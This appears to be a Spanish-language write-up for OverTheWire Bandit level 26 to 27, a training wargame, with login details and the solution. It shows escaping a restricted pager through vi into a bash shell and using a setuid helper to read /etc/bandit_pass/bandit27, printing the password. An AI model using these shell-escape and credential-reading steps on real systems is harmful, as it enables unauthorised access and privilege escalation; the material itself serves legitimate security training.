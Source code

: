 # Level 26 - 27
---
## Objetivo 
Good job getting a shell! Now hurry and grab the password for bandit27!

---
## Datos de acceso al nivel 

```
Server  : **bandit.labs.overthewire.org**
User    : **bandit26**
Pasword : **c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1**
Puerto  : 2220 
```

---
## Solución 

**Antes de empezar se hace la ventana de la consola mas pequeña, igual que el reto anterior**

**Primero se accede al servidor**
```bash
ssh bandit26@bandit.labs.overthewire.org -p 2220
```
**Contraseña de usuario**
```
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```

**Después se hace lo siguiente en la consola**

```bash
## una ves que se muestre la infommacion por paginas volvemos a acceder al vi
v
## dentro ejecutamos estos 2 comandos
:set shell=/bin/bash
:shell  # nos perimite entrar al shell para escribir mas comandos

## dentro del shell que salen en el vi
ls
# bandit27-do text.txt
./bandit27-do id
# uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)
./bandit27-do cat /etc/bandit_pass/bandit27
# YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
## salimos del shell
exit
## salimos del vi
:qa 
```

**Resultado final**

```
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
```

---
## Notas Adicionales 

---
## Referencias 
